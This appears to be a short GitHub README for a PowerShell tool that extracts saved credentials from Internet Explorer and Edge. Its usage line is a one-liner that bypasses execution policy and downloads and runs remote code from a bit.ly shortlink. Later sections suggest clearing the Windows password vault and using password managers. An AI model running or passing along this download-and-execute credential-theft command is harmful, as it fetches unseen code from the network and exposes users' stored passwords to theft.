 # credgrap_ie_edge

Content: Extract stored credentials from Internet Explorer and Edge

Author: Florian Hansemann | @HanseSecure | https://hansesecure.de

Date: 04/2018

## Usage
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2K75g15’)"

## Recommendation

### Powershell Solution
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | ForEach {$vault.Remove($_)}

Thanks @nongiach for Info

### Other Solution
Don't save any passwords within your browser and use password safes ;-)

### Additionally Information
I was informed by @jaredhaight that this code was already used in the past. I Didn't know that, but i want to add the link to that post https://www.toddklindt.com/blog/_layouts/mobile/dispform.aspx?List=56f96349-3bb6-4087-94f4-7f95ff4ca81f&ID=606

I think the smaller the code, the bigger the chance to develop something 'old.

Like in case of XSS ¯\_(ツ)_/¯

